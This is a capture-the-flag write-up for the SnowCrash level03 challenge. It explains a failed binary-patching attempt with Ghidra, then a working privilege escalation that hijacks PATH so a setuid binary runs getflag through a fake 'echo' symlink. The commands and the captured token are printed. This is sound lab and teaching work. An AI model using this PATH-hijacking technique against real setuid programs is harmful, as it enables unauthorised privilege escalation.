

## level 03

Signing into the level 03 user you are greeted with the following:
```bash
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

There is an executable called level03! Running this program results in the output:
```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

Thats a great clue on where to start!

## Attempt 1

Having dabbled a bit with binary exploitation before out first attempt was to use Ghidra, a reverse engineering framework.

Opening the binary we get to see a disassembled and reconstructed version of the executable:

   

The first idea that popped into our minds was to create a patch file to patch file to change the line:
```c
iVar1 = system("/usr/bin/env echo Exploit me");
```

Into a version that would call the getflag right away.
```c
iVar1 = system("getflag");
```

Since the owner of the file is the user 'flag03' and the suid bit is set in the file permissions, it *should* execute the binary as the flag03 user.
Sadly we were soon hit by a wall we had not thought of, the level03 binary has no write permissions, so we were unable to patch the binary and go with this approach.

## Solution

After thinking about the way echo is called, we realized something: the path to echo is resolved by the shell created through the call to system().

So lets try to exploit this!
First we create a symlink to the getflag to a file called echo:
```bash
level03@SnowCrash:~$ ln -s /bin/getflag /home/user/level03/echo
```

Then we append the directory where we stored this file in the front of our $PATH environment variable:
```bash
level03@SnowCrash:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

level03@SnowCrash:~$ export PATH=/home/user/level03:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Then all there is left to do is call the level03 executable, which will then internally call the getflag command as if it was the flag03 user!
```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
